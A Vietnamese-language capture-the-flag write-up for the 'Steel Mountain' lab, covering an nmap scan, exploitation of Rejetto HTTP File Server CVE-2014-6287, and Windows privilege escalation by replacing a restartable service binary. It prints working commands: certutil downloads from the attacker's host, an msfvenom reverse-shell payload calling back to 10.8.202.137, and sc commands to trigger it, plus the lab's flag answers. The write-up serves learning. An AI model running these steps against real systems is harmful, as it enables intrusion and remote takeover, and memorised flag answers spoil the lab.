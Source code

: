 ![image](https://github.com/user-attachments/assets/496cf3dc-d253-47a7-a163-44d27b1ee3e1)

# Room info and Comment
## Room info
Sử dụng metasploit để truy cập lần đầu, sử dụng powershell để liệt kê leo thang đặc quyền của Windows và tìm hiểu kỹ thuật mới để có quyền truy cập Quản trị viên.

## Comment
Như tiêu đề, bài lâb này ban đầu hơi sai quy trình tí nên cách 1 làm hơi lâu =)). Bài lab này có 2 cách làm. Cách 1 sử dụng meterpreter cách 2 chạy bằng script có của CVE

# Analysis
## nmap
Scan để xem có những port và service gì
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -A -sC 10.10.29.130
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-30 15:00 EDT
Nmap scan report for 10.10.29.130
Host is up (0.21s latency).
Not shown: 989 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-07-30T19:02:09+00:00
|_ssl-date: 2024-07-30T19:02:14+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-07-29T18:42:51
|_Not valid after:  2025-01-28T18:42:51
8080/tcp  open  http               HttpFileServer httpd 2.3
<snip>
```
Từ trên ta có port 8080 dùng service **HttpFileServer httpd 2.3**

## Search exploit 
Khi có thông tin trên dễ dàng tìm được [CVE](https://www.exploit-db.com/exploits/39161) của nó là `2014-6287`

![image](https://github.com/user-attachments/assets/d985fcaa-3e70-4f47-aa12-854c3df158f6)

## Exploit by script
Tải file pyton về và dựa vào note ta cần lưu ý 2 thứ:

- Máy mục tiêu phải được upload [file](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) `nc.exe` để chạy và file nó được lấy **từ port 80 xuống**
- Có thể phải chạy **nhiều lần** mới thành công

![image](https://github.com/user-attachments/assets/1b530cee-2e25-45f8-95b0-6526e4a5f4c3)

Từ đây đã chiếm được quyền user, Tiếp theo là leo lên root

![image](https://github.com/user-attachments/assets/c2d71c0d-f4bc-4c94-ace0-6b69cf21119a)

## winpeax64.exe
Để check xem có thể leo quyền ở đâu ta sẽ dùng tool này.

Tuy nhiên cũng phải check xem nó đang chạy trên phiên bản nào bằng cách dùng command `systeminfo` để tải bản tương thích về --> `x64`

```
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>systeminfo
systeminfo

Host Name:                 STEELMOUNTAIN
OS Name:                   Microsoft Windows Server 2012 R2 Datacenter
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00253-50000-00000-AA656
Original Install Date:     9/26/2019, 7:11:06 AM
System Boot Time:          7/30/2024, 11:41:57 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
```
Để lấy file mình đã cầi sẵn ở đây
```
┌──(kali㉿kali)-[~/Downloads]
└─$ peass                      

> peass ~ Privilege Escalation Awesome Scripts SUITE

/usr/share/peass/
├── linpeas
│   ├── linpeas_darwin_amd64
│   ├── linpeas_darwin_arm64
│   ├── linpeas_fat.sh
│   ├── linpeas_linux_386
│   ├── linpeas_linux_amd64
│   ├── linpeas_linux_arm
│   ├── linpeas_linux_arm64
│   └── linpeas.sh
└── winpeas
    ├── winPEASany.exe
    ├── winPEASany_ofs.exe
    ├── winPEAS.bat
    ├── winPEASx64.exe
    ├── winPEASx64_ofs.exe
    ├── winPEASx86.exe
    └── winPEASx86_ofs.exe
```
Oke, tiếp theo sẽ upload file lên bằng lệnh sau:
```
certutil -urlcache -split -f http://10.8.202.137:80/winPEASx64.exe
```
Tiến hành chạy file
`.\winPEASx64.exe`

![image](https://github.com/user-attachments/assets/f9dc2d22-fdc7-4864-96bb-d9129440c72a)

Sau khi chạy ta sẽ thấy nó trả về 1 dòng đỏ về 1 service có tên là `AdvancedSystemCareService9` có thể tùy chỉnh tức là nếu ta sử dụng cách 1 tức là dùng metasploit bằng meterpreter ta nhìn thấy thuộc tính `CanRestart` là `true`,cho phép chúng ta khởi động lại một dịch vụ trên hệ thống, thư mục vào ứng dụng cũng có thể ghi được. Điều này có nghĩa là chúng t có thể thay thế ứng dụng hợp pháp bằng ứng dụng độc hại của mình, khởi động lại dịch vụ để chạy chương trình bị nhiễm của chúng ta!

![image](https://github.com/user-attachments/assets/b8058005-b7f4-40d2-861f-c165ef82b14e)
## msfvenom
Tiếp tục việc lợi dụng upload file lên với payload được lấy từ mfsvenom, và ta phải **upload file vào đúng path** trên để service này mới bị lợi dụng đúng cách
### Payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.202.137 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
### Upload file
```
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd C:\Program Files (x86)\IObit 
cd C:\Program Files (x86)\IObit

C:\Program Files (x86)\IObit>certutil -urlcache -split -f http://10.8.202.137:80/Advanced.exe
certutil -urlcache -split -f http://10.8.202.137:80/Advanced.exe
****  Online  ****
  0000  ...
  3e00
CertUtil: -URLCache command completed successfully.
```
### Exploit
```
C:\Program Files (x86)\IObit>copy Advanced.exe "Advanced SystemCare"
copy Advanced.exe "Advanced SystemCare"
        1 file(s) copied.

C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2532
        FLAGS              : 
```
Leo theo công!

![image](https://github.com/user-attachments/assets/dc6e9443-21e0-46f8-8a15-0bd1d470c325)

# Results
1. Who is the employee of the month? --> Bill Harper
2. Scan the machine with nmap. What is the other port running a web server on? --> 8080
3. Take a look at the other web server. What file server is running? --> Rejetto HTTP File Server
4. What is the CVE number to exploit this file server? --> 2014-6287
5. Use Metasploit to get an initial shell. What is the user flag? --> b04763b6fcf51fcd7c13abc7db4fd365
6. Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability? --> AdvancedSystemCareService9
7. What is the root flag? --> 9af5f314f57607c00fd09803a587db80
8. What powershell -c command could we run to manually find out the service name? *Format is "powershell -c "command here"* --> powershell -c "Get-Service"
